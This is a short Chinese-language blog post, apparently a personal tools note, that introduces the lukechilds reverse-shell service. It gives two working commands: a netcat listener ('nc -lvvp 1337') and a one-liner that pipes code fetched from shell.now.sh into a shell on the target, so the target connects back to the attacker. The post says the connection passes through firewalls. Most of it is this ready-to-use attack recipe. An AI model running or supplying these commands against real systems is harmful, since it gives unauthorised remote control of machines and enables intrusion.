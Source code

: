 ```yaml
---
title: reverse-shell
date: 2018-02-03 14:26:37
tags:
	- tools
categories:
	- tools

---
```


![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3avdpsuqj30rl0efmx7.jpg)
<!--more-->

### 前言

将`Shell`作为服务反向 - `https://shell.now.sh`

在大多数类`Unix`系统上都可以使用的反向`shell`。

检测目标上的可用软件并运行适当的有效负载。

因为这是一个反向连接，所以它可以穿过防火墙并连接到互联网。



`github`项目地址：
[https://github.com/lukechilds/reverse-shell](https://github.com/lukechilds/reverse-shell)




### 步骤

#### 1、监听端口
    nc -lvvp 1337

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3asm9s45j30rl0efweg.jpg)

#### 2、在目标上执行反向shell


    curl https://shell.now.sh/主机名/域名或者ip:1337 | SH

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3aurqh80j30ho04gq2v.jpg)



#### 3、得到shell

![](https://ws1.sinaimg.cn/large/006Y6f53gy1fo3avdpsuqj30rl0efmx7.jpg)


**总结：**

- 学会了反向`shell`




